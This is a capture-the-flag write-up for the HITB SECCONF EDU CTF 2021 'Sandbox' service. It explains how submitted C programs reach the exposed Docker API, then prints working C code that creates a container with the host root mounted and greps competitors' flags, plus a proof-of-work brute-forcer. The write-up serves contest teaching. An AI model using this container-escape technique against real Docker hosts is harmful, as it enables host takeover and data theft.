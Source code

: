 # Writeup for the Sandbox service from HITB SECCONF EDU CTF 2021

## About the service

Service Sandbox provides a very simple functionality: it allows to run a small C program with passed input and get it's output.

Service has HTTP API which can be observed on http://<IP>:8000/docs:

images/swagger.png

Endpoints `/users` and `/login` are intuitive.

Endpoints `/programs` allows to upload a C program and list available programs available for running.

Running a program is CPU bound task so you we need to protect the service from the flood. It's the reason why proof-of-work has been added to the service.
First, you need to send POST request to `/programs/{program_id}/challenge`, receive challenge and solve it (it takes ~60 seconds in one core).
After that you are able to run a program: just send a POST request to `/programs/{program_id}/run` with solved challenge and input for your program. 

Service is written on Python, uses FastAPI as a framework and PostgreSQL as a database. It runs programs inside of docker containers, which are located
in the separate virtual machine (VirtualBox).

## Structure of the service

Service has three parts, which can be found at `/home/sandbox` of the vulnerable image.

First part is Python application located in `src` subfolder.
Second part is VirtualBox machine, created from the image located in `sandbox_vm_image` subfolder. VirtualBox machine doesn't have internet connection, only python application can connect to it (
to 22/tcp — SSH, and to 2375/tcp — Docker)
And third part is Docker image located in `sandbox_docker_image`. Containers created from this image are running inside of VirtualBox machine.
You can investigate internals of Docker image, because it's just a .tar.gz archive.

## Vulnerability

VirtualBox machine has docker socket which accepts connections from the Python service. It's builtin feature of the Docker daemon.
But if you allow to connect to the Docket socket, you should be 100% sure that only legit users can do it. 

In our case we can connect to the Docker socket from the Docker container, so it's not safe! We can run a program which connects to the Docker socket, creates a new container, mount
host file system, run some code in privileged mode and so on... It's a big security hole!

We have only two problems.

1. We need to connect to the Docker socket from C program without any libraries installed. Fortunately, Docker socket has HTTP API. Example of program connecting to this API and creating some containers
could be found at [../sploits/sandbox/program_template.c](sploits folder). Some piece of code from there:

```(c)
void create_hacking_container() {
    char result[BUFFER_SIZE];

    // 1. Create a container
    char* shell_command = "while true; do grep -oE '[A-Z0-9]{31}=' /host/tmp/*/program.c 2> /dev/null; sleep 1; done";
    char body[BUFFER_SIZE];
    sprintf(body, "{\"Image\": \"sandbox\", \"EntryPoint\": \"/bin/sh\", \"Cmd\": [\"-c\", \"%s\"], \"HostConfig\": { \"Binds\": [\"/:/host\"] }}", shell_command);
    send_http_request_post(docker_host, DOCKER_PORT, "/containers/create", body, result);
    printf("%s", result);

    char container_id[DOCKER_CONTAINER_ID_LENGTH + 1];
    extract_json_field(result, "Id", container_id);

    printf("Container id: %s\n", container_id);

    // 2. Run the container
    char run_container_url[MAX_URL_LENGTH + 1];
    snprintf(run_container_url, MAX_URL_LENGTH, "/containers/%s/start", container_id);
    send_http_request_post(docker_host, DOCKER_PORT, run_container_url, "{}", result);
    printf("%s", result);

    printf("FOR EXPLOIT:\n%s\n", container_id);
}
```

This part of code creates a fresh Docker container (without any limits), mounts host's root directory / to /host and run following shell command with flag grepping (programs with flags are stored in `/tmp/*/program.c` for some time):

```(bash)
while true; do grep -oE '[A-Z0-9]{31}=' /host/tmp/*/program.c 2> /dev/null; sleep 1; done
```

After that program runs this container and prints to stdout the id of this container. After some time we can send another program which connects to Docker socket and read logs (stdout and stderr)
of this container by it's id. Logs should contains greppped flags:

```(c)
void get_hacking_container_output(const char* container_id) {
    char result[BUFFER_SIZE];

    char get_container_logs_url[MAX_URL_LENGTH + 1];
    snprintf(get_container_logs_url, MAX_URL_LENGTH, "/containers/%s/logs?stdout=true&stderr=true&tail=20", container_id);
    int len = send_http_request_get(docker_host, DOCKER_PORT, get_container_logs_url, result);

    print_hex_buffer(result, len);
}

```

2. We need to pass the proof-of-work challenge to run a program. There is no other way to brute force it. I've done it in C++:

```(cpp)
#include <openssl/sha.h>

using namespace std;

string sha256(const string& str) {
    unsigned char hash[SHA256_DIGEST_LENGTH];
    SHA256_CTX sha256;
    SHA256_Init(&sha256);
    SHA256_Update(&sha256, str.c_str(), str.size());
    SHA256_Final(hash, &sha256);
    stringstream ss;
    for(int i = 0; i < SHA256_DIGEST_LENGTH; i++) {
        ss << hex << setw(2) << setfill('0') << (int)hash[i];
    }
    return ss.str();
}

int main() {
	... // read the prefix

	for (unsigned int suffix = 0; ; suffix++) {
    	char buffer[17];
	    sprintf(buffer, "%08x%08x", prefix, suffix);
    	string result = sha256(buffer);
	    if (result.substr(0, 6) == "000000") {
    	    cout << prefix << " " << suffix << " " << buffer << " " << result << endl;
	        break;
    	}
	}

	return 0;
}
```


